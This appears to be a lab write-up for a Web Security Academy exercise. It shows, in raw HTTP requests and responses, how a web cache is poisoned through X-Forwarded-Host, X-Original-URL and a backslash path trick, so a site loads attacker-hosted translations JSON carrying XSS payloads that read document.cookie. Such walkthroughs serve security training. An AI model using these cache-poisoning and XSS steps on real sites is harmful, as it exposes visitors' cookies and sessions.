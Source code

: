 PoC 

Set `/resources/json/translations.json` with a malicious payload and a specific key(`0xbro`):
```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Access-Control-Allow-Origin: *

{
    "en": {
        "name": "<img src onerror=alert(document.cookie)>"
    },
    "0xbro": {
        "name": "<img src onerror=alert(document.cookie)>",
        "translations": {
            "Return to list": "<img src onerror=alert(document.cookie)>",
            "View details": "<img src onerror=alert(document.cookie)>",
            "Description:": "<img src onerror=alert(document.cookie)>"
        }
    }
}
```

Poisoned the server the first time in order to set the arbitrary cookie value.
>[!warning]
>I used `/setlang\0xbro?` because `/setlang/0xbro?` sets cookies and cannot be cached. `/setlang\0xbro` instead is normalized by the server and also cached:

```http
GET / HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
X-Original-URL: /setlang\0xbro?
Connection: close


HTTP/1.1 302 Found
Location: /setlang/0xbro
ache-Control: max-age=30
Age: 2
X-Cache: hit
```

Poisoned the redirect page in order to retrieved the poisoned JSON:
```http
GET /?localized=1 HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
Connection: close


<script>
	data = {
		"host":"exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net",
		"path":"/",
	}
</script>
```
